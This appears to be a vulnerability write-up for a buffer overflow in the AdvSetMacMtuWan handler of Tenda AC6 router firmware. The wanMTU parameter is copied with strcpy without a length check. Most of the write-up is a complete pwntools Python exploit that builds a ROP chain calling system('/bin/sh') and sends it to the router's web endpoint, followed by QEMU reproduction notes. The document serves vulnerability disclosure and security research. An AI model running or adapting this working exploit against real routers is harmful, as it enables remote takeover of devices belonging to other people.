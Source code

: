 # fromAdvSetMacMtuWan-vulnerability

## Intro

Tenda AC6 V1.0BR_V15.03.05.19_multi_TD01 firmware has a buffer overflow vulnerability in the sub_72E7C function. **strcpy(a3 + 0x10, v3);** function copies the contents of the parameter **"wanMTU"(or wanMTU2)** to a3 without performing a length check. Therefore we can send a very long string to overwrite the return address to execute certain code we want.

![img](./assets/8.png)

![img](./assets/9.png)

## Exp

By analysing the libc in firmware and adding breakpoint in memset function, we can get the base address of libc：0x3fdd8f70-0x3df70=0x3fd9b000

![](./assets/2.png)

![](./assets/3.png)

Then let's set the rop chain. It's so lucky that there's a perfect gadget "pop {r0, pc}" that can pass parameter and set pc at the same time. So we can use this gadget to execute "system("/bin/sh")" easily. The offset of this gadget in libc is 0x0003db80（take US_AC6V1.0BR_V15.03.05.19_multi_TD01 as example）.

Noticing that sub_72E7C is called by fromAdvSetMacMtuWan, we should pay attention that when overwriting the return address of fromAdvSetMacMtuWan, we also rewrite some local variables in fromAdvSetMacMtuWan. To make it run normally before returning, we should set the value of [sp+17Ch] and [sp+180h] as 0xffffffff（minus one）.

![](./assets/10.png)

```python
from pwn import *
import requests

libc = ELF('./lib/libc.so.0')

libc_start = 0x3fd9b000
system_addr = libc_start + libc.symbols['system']
binsh_addr = libc_start + next(libc.search(b'/bin/sh'))

# 0x0003db80 : pop {r0, pc}

pop_r0_pc = libc_start + 0x0003db80

print(f"system: {hex(system_addr)}")
print(f"/bin/sh: {hex(binsh_addr)}")
print(f"pop {hex(pop_r0_pc)}")

def send_payload(url, payload):
    print("sending...")
    response = requests.get(url, params={'wanMTU': payload})
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

payload = 0x104 * b'A' + b'\xff\xff\xff\xff' + b'\xff\xff\xff\xff' + 0x10 * b'A' + p32(pop_r0_pc) + p32(binsh_addr) + p32(system_addr)
send_payload("http://10.10.10.1/goform/AdvSetMacMtuWan", payload)

```

## Reproduction

If you are using qemu to run the binary file, to make it run correctly, there's several places to patch.

The instructions patched to **'b'(the jump instruction)** can be listed as follows:  

![](./assets/4.png)

![](./assets/5.png)

Then after running the exp twice we can get shell successfully.

![](./assets/11.png)